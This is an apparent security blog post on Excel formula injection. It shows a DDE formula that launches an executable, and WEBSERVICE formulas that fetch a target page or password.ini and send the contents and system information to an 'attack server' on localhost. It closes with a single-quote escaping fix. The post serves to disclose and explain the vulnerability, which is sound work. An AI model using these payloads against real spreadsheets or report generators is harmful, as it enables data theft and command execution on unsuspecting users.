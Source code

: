 ============================
Weaponizing Excel Webservice
============================

State of the art
================

Excel formulas
--------------

Did you know that Microsoft Excel has some functions that could be exploited
by malicious actors. I'm not talking about macros here, but plain old
formulas.

We are interested in formulas for two reasons. First of all it isn't blocked
by any anti-macro system, nor is it detected by any antivirus as being a bad
thing. Moreover there are more clever ways to use them than just send someone
else an XLS file.

Formula injection
-----------------

Many systems propose to create an Excel file from a CSV one, or a database in
order to produce a report. Those entries are rarely escaped so anyone
submitting a CSV with formulas in it can expect to see the formulas being
interpreted when the XLS is opened.

Furthermore people are more likely to trust a report they just generated than
a phishy XLS just received by email, so these injection techniques can lead
us to computers we couldn't touch before.

It seems the first mention of this was in an article by contextis_ in 2014.
It described two main ways to exploit Microsoft Excel using only formulas.

.. _contextis: https://www.contextis.com/resources/blog/comma-separated-vulnerabilities/

DDE
---

Dynamic Data Exchange: an interprocess communication protocol. Ok, let's just
say that it allows us to execute any executable with any argument:

::

    =cmd|' /C calc'!A0

The executable is called when the case is evaluated, so when the sheet is
opened which is good. However the user will have lots of warnings when
openning it so unless we built a very good trust relationship this is hardly
exploitable.

Hyperlink
---------

Hyperlink allows us to open a URL in the webbrowser when the hyperlink cell
is clicked. The good point is that as the webbrowser is used we have access
to the cookies and can do CSRF attacks. We also don't have any restriction on
the port or anything so it is quite powerful combined with knowledge of the
infrastructure we want to attack.

But there is no real way to extract any information back to our attack
server, and we rely on the user clicking the cell and not realizing that
something bad may have happened when his browser opens on a page it
shouldn't.

.. image:: ../image/applejack_eyebrow.png
    :width: 25%

So yeah, the situation was pretty dire, to the point where many companies_
considered that excel injection formulas were not worth fixing.

.. _companies: https://sites.google.com/site/bughunteruniversity/nonvuln/csv-excel-formula-injection

Webservice
==========

Then came Excel 2013. This release brought many very interesting functions,
including:

- WEBSERVICE(url)
- ENCODEURL(text)
- FILTERXML(xml, xpath)

The recent TEXTJOIN added in Excel 2016 also looks promising.

The one function we're particularly interested in is WEBSERVICE. This
function takes a URL, makes a GET request to recover its content and returns
this data as the content of the cell. And all that without ever asking for
any user interaction besides opening the sheet.

This is very powerful and I would like to share some use cases.

CSRF
----

The basic usage, just do a plain old call to the URL. The problem is that as
we are not using a browser it only works if the webservice isn't relying on
session cookies and needs only one GET request.

Information disclosure
----------------------

This is more interesting. As the content of the page is returned by the
function we can extract any data to one of our servers.

For the purpose of the test I will work with two servers running in local:

- 8000 is the target webservice
- 8001 is the attack server

Let's use the following function

::

    =webservice("http://127.0.0.1:8001/?c="
                & webservice("http://127.0.0.1:8000/"))

The '&' is the concatenation symbol in Excel. This formula makes two calls,
the first at the target webserver, the second at the attack server, passing
the content of the page as GET argument.

.. image:: ../image/excel_ws_attack_server_1.png

We see a password.ini, let's check it out:

::

    =webservice("http://127.0.0.1:8001/?c="
                & webservice("http://127.0.0.1:8000/password.ini"))

.. image:: ../image/excel_ws_attack_server_2.png

System informations
-------------------

We can also get some informations about the system:

::

    =webservice("http://127.0.0.1:8001/"
                & "?v=" & info("osversion")
                & "&d=" & info("directory"))

.. image:: ../image/excel_ws_os_version.png

Other ideas
-----------

It is also possible to use this for basic port scan or host discovery.

We could also extract data from within the spreadsheet if it is generated on
the server side with sensitive data.

Other functions are proposed such as FILTERXML that allows selection by XPATH
which widens the possibility. Don't forget that Excel has lots of text
manipulation functions too.

The sky's the limit!

.. image:: ../image/rainbowdash-flying.png
    :width: 60%

Limitations
-----------

I encountered some limitations while exploring this:

- The protocol has to be HTTP or HTTPS. It is possible that others are
  supported but I did not find one.

- In particular I did not find any way to access local files directly. Too
  bad.

- Some ports seem off-limit even if the protocol is HTTP, like 22

- The timout is huge and all requests are made sequentially. This means that
  it is impossible to do 65535 requests for a port scan, the user will have
  closed the frozen spreasheet long before completion.

- We cannot recover binary data as any NULL byte would not make it to the URL
  for exfiltration.

Conclusion
==========

I believe those attacks are relevant enough to consider Excel Formula
Injection a real vulnerability. Moreover I won't talk of CSV injection as
other websites do because this is not limited to CSV at all.

That said, if you build anything upon this drop me a mail, I'd be thrilled to
hear about it.

Last but not least, if you want to escape a field, just put a single quote as
first character. Excel will handle the rest just fine.

Images sources
--------------

- http://themajesticpony.deviantart.com/art/Applejack-raises-her-eyebrow-429862102

- http://www.pngmart.com/image/23093
